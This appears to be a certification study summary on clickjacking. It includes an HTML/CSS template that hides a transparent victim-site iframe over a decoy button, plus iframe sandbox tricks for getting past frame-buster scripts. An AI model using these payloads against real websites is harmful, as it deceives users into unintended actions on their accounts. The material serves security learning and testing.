##### PortSwigger BurpSuite Certification Summary
# Clickjacking

"Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website."

The principle of hiding a website within another can look like this:
```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			top:300px;
			left:400px;
			z-index:1;
			}
	</style>
</head>

<body>
	<div id="decoy_website">
	  Click me
	</div>
	<iframe id="target_website" src="VICTIM-HOST">
	</iframe>
</body>
```
 The malicious website is overlain in a way that there is an overlap with the functionality the victim is likely to use on the decoy website. Sometimes it makes sense to focus on an element on the page to increase the chances that the overlay is good. This can be done with `#id` with the id of the HTML element.
 
Sometimes it is possible to **pre-fill fields by submitting the value in the get request**. This can be used to fill in desired information before the user clicks the button.

Browser specific scripts, so-called frame busters, run JS code and check for invisible frames, etc. To circumvent this, an attacker can adapt the iframe:
```
<iframe id="victim_website" src="VICTIM-HOST" sandbox="allow-forms"></iframe>
<iframe id="victim_website" src="VICTIM-HOST" sandbox="allow-scripts"></iframe>
```

Multistep clickjacking is when there are several decoy websites that trick the victim into clicking multiple buttons. This can be necessary for functionalities that require more than one user action.
